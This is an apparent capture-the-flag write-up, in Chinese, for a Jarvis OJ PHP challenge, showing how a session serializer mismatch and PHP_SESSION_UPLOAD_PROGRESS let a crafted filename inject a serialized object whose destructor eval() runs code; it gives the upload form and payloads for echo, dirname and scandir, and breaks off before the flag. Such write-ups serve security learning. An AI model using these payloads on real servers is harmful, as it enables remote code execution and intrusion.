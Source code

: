 <http://web.jarvisoj.com:32784/>

		https://blog.spoock.com/2016/11/15/jarvisoj-web-writeup-1/
		看到PHP代码中的ini_set('session.serialize_handler', 'php')就会知道这道题目与PHP中的Session序列话的问题有关，关于PHP中的Session的问题，可以参考我的这篇文章。这里就对Session序列化不做说明。
		这个漏洞如果要触发，则需要在服务器中写入一个使用php_serialize序列话的值，然后访问index.php时就会被php的引擎反序列化。但是本题没有提供写入session的方法，但是可以通过Session Upload Progress来向服务器设置session（http://php.net/manual/en/session.upload-progress.php）。

		具体为，在上传文件时，如果POST一个名为PHP_SESSION_UPLOAD_PROGRESS的变量，就可以将filename的值赋值到session中，上传的页面的写法如下：
		<form action="http://121.42.149.60/68b329da9893e34099c7d8ad5cb9c940/index.php" method="POST" enctype="multipart/form-data">
		    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
		    <input type="file" name="file" />
		    <input type="submit" />
		</form>
		最后在Session就会保存上传的文件名。

		下面就对PHP_SESSION_UPLOAD_PROGRESS来写入的方式进行测试。
		在本地中，需要对$mdzz进行赋值，然后通过析构函数中的eval()去执行$mdzz中的方法。
		在本地创建myindex.php
		<?php
		ini_set('session.serialize_handler', 'php_serialize');
		session_start();
		class OowoO
		{
		    public $mdzz='需要设置方法';
		    function __construct()
		    {
		        // $this->mdzz = 'phpinfo();';
		    }
		    
		    function __destruct()
		    {
		        // echo $this->mdzz;
		    }
		}
		$obj = new OowoO();
		echo serialize($obj);

		首先设置$mdzz='echo "spoock";',最后序列化得到的结果是:O:5:"OowoO":1:{s:4:"mdzz";s:14:"echo "spoock";";}。那么文件名就需要设置为|O:5:"OowoO":1:{s:4:"mdzz";s:14:"echo "spoock";";}，由于要对其中的双引号进行转义，最后实际的文件名为|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:14:\"echo \"spoock\";\";}。最后的测试结果为：可以看到最后的结果输出了spoock，说明上述的测试是成功的。

		接下来就需要获取flag了。
		获取项目路径：
		通过dirname获取文件路径
		设置$mdzz='print_r(dirname(__FILE__));'
		序列化得到的结果是O:5:"OowoO":1:{s:4:"mdzz";s:27:"print_r(dirname(__FILE__));";}
		文件名设置为|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:27:\"print_r(dirname(__FILE__));\";}
		得到项目路径是在opt/lampp/htdocs
		
		获取文件列表
		通过scandir获取文件列表
		设置$mdzz='print_r(scandir("/opt/lampp/htdocs"));'
		序列化的结果是O:5:"OowoO":1:{s:4:"mdzz";s:38:"print_r(scandir("/opt/lampp/htdocs"));";}
		文件名设置为|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:38:\"print_r(scandir(\"/opt/lampp/htdocs\"));\";}
		